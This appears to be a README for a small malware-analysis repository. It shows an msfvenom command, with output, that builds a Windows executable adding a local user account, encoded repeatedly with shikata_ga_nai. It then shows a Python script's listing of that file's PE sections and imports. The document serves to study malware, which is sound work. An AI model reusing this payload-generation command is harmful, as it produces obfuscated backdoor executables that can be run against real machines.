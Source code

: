 # Malware-Analysis

Create Malicious exe file using Metasploit module (msfvenom) that adds a user "testuser321" and password "Test@321". Encode the file using encoder shikata_ga_nai with iteration 10 times as shown below.

root@kali64:~# msfvenom -p windows/adduser user=testuser1 pass=Test@321 -e x86/shikata_ga_nai -i 10 -f exe -o ~/testadd10.exe  
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload  

[-] No arch selected, selecting arch: x86 from the payload  
Found 1 compatible encoders  
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai  
x86/shikata_ga_nai succeeded with size 303 (iteration=0)
x86/shikata_ga_nai succeeded with size 330 (iteration=1)
....
x86/shikata_ga_nai succeeded with size 519 (iteration=8)
x86/shikata_ga_nai succeeded with size 546 (iteration=9)
x86/shikata_ga_nai chosen with final size 546
Payload size: 546 bytes
Final size of exe file: 73802 bytes
Saved as: /root/testadd10.exe
root@kali64:~# 

#Getting Started and Example
The script will show the sections and IAT of the file as shown below

root@kali64:~# python pe_test.py testadd10.exe
testadd10.exe
('.text\x00\x00\x00', '0x1000', '0xa966', 45056)
('.rdata\x00\x00', '0xc000', '0xfe6', 4096)
('.data\x00\x00\x00', '0xd000', '0x705c', 16384)
('.rsrc\x00\x00\x00', '0x15000', '0x7c8', 4096)
MSVCRT.dll
	_iob
	_except_handler3
	__set_app_type
	__p__fmode
	__p__commode
	_adjust_fdiv
	__setusermatherr
	_initterm
	__getmainargs
	__p___initenv
	_XcptFilter
	_exit
	_onexit
	__dllonexit
	strrchr
	wcsncmp
	_close
	wcslen
	wcscpy
	strerror
	modf
	strspn
	realloc
	__p__environ
	__p__wenviron
	_errno
	free
	strncmp
	strstr
	strncpy
	_ftol
	qsort
	fopen
	perror
	fclose
	fflush
	calloc
	malloc
	signal
	printf
	_isctype
	atoi
	exit
	__mb_cur_max
	_pctype
	strchr
	fprintf
	_controlfp
	_strdup
	_strnicmp
KERNEL32.dll
	PeekNamedPipe
	ReadFile
	WriteFile
	LoadLibraryA
	GetProcAddress
	GetVersionExA
	GetExitCodeProcess

